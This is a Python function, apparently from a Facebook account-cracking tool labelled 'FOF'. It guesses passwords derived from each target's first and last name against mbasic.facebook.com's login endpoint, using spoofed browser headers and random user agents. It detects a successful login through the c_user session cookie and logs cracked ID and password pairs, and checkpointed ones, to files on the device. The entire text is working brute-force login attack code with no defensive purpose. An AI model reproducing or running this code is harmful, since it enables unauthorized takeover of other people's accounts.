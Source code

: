 def m2(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [FOF] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [FOF\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/FOF•OK•M2.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [FOF•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/FOF•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
